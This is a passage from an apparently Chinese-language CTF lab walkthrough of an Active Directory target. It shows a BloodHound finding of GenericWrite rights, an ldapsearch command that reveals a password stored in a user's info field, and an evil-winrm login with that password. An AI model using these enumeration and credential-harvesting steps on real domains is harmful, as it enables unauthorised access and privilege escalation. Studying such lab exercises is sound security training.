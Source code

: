 **关键发现**：用户 `hyh` (1106) 对用户 `ca-user` (1104) 拥有 `GenericWrite` 权限！

同时发现 `ca-user` 是 `ca-admin` 组的成员：

```json
"Members": [
  {
    "ObjectIdentifier": "S-1-5-21-3649830887-1815587496-1699028491-1104",
    "ObjectType": "User"
  }
]
```

# 四、LDAP信息挖掘获取hyh凭证

## 4.1 LDAP查询发现密码

使用 mulis 凭证查询 hyh 用户信息：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ ldapsearch -x -H ldap://192.168.205.177 -D "mulis@confidence.com" -w babygirl -b "CN=hyh,CN=Users,DC=confidence,DC=com" -s base "*"
...
info: Password: 3948571026
memberOf: CN=Remote Management Users,CN=Builtin,DC=confidence,DC=com
...
```

在 `info` 字段中发现了 hyh 用户的密码：`3948571026`

## 4.2 WinRM登录

利用获取的凭证通过WinRM登录：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ evil-winrm -i 192.168.205.177 -u hyh -p 3948571026
...
*Evil-WinRM* PS C:\Users\hyh\Desktop> type user.txt
this user flag
```

# 五、GenericWrite权限利用与证书服务攻击

## 5.1 GenericWrite权限说明

GenericWrite权限允许攻击者修改目标用户对象的多种属性，包括：

- 密码重置
- 用户属性修改
- SPN设置
- 组成员关系
